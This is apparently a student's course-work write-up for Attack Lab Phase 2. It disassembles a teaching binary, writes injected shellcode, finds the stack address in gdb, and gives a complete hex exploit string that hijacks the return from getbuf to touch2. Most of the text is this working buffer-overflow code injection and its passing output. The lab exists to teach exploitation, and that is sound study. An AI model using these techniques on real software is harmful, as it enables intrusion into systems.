 ```yaml
---
category:
- Course Work
title: 'Attack Lab: Phase 2'
date: '2022-04-23T00:00:00+08:00'
tags:
- Attack Lab
- Computer Organization and Architecture
---
```


###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401b6a <touch2>:
...
```

###### Write File `phase-2-inject.s`

```assembly
movl $0x3a9a6c2f, %edi
pushq $0x0000000000401b6a
retq
```

###### Run

```bash
gcc -c phase-2-inject.s
objdump --disassemble phase-2-inject.o > phase-2-inject.asm
```

###### Read File `phase-2-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0:	bf 2f 6c 9a 3a       	mov    $0x3a9a6c2f,%edi
   5:	68 6a 1b 40 00       	pushq  $0x401b6a
   a:	c3                   	retq
```

###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) stepi
(gdb) info registers rsp
rsp            0x55668c98       0x55668c98
```

###### Write File `phase-2.txt`

```
bf 2f 6c 9a 3a
68 6a 1b 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
```

###### Run

```bash
./hex2raw < phase-2.txt > phase-2.in
./ctarget -i phase-2.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch2!: You called touch2(0x3a9a6c2f)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
